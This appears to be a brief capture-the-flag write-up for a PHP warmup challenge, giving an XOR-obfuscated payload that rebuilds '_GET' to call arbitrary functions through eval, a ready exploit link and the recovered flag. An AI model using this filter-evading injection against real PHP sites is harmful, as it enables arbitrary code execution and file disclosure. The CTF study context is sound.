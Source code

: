 **Challenge:** http://69.90.132.196:5003/?view-source

Payload: <code>$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=highlight_file&__=flag.php</code>

Explaining:
  - <code>$_="`{{{"^"?<>/";</code> | Result of xor operation: <code>$_ = "_GET"</code>
  - <code>${$_}[_](${$_}[__]);</code> | <code>$_GET[_]($_GET[__])</code>
  - Eval function will be: <code>eval(highlight_file('flag.php'))</code>

**<a href="http://69.90.132.196:5003/?warmup=$_=%22`{{{%22^%22?%3C%3E/%22;${$_}[_](${$_}[__]);&_=highlight_file&__=flag.php" >Get the flag</a>**

**Flag**: ASIS{w4rm_up_y0ur_br4in}
